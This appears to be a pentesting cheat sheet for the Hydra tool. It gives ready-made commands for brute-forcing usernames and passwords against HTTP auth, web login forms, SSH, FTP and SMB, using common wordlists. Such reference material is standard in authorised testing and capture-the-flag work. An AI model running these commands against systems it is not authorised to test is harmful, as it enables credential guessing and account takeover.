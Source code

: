 ```yaml
---
title: Hydra
desc: Cracks username and password in web form, SSH, FTP.
tags: [Cryptography, FTP, Linux, Password, SMB, SSH]
alts: [CrackStation, Hashcat, JohnTheRipper]
website:
---
```


## HTTP GET request (Authorization, WWW-Authenticate)

```sh
# Crack username and password
hydra -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/seclists/Passwords/darkc0de.txt 10.0.0.1 http-get
```

<br />

## Web form

```sh
# Crack username
hydra -L /usr/share/seclists/Usernames/Names/names.txt -p secret 10.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"

# Crack password
hydra -l username -P /usr/share/wordlists/rockyou.txt 10.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
```

<br />

## SSH

```sh
# Crack username
hydra -v -L /usr/share/seclists/Usernames/Names/names.txt -p password 10.0.0.1 ssh

# Crack password
hydra -v -l username -P /usr/share/seclists/Passwords/darkc0de.txt 10.0.0.1 ssh
```

<br />

## FTP

```sh
# Crack password
hydra -l username -P passwords.txt ftp://10.0.0.1
```

<br />

## SMB

```sh
# Crack username
hydra -v -L /usr/share/seclists/Usernames/Names/names.txt -p password 10.0.0.1 smb

# Crack password
hydra -v -l username -P /usr/share/seclists/Passwords/darkc0de.txt 10.0.0.1 smb
```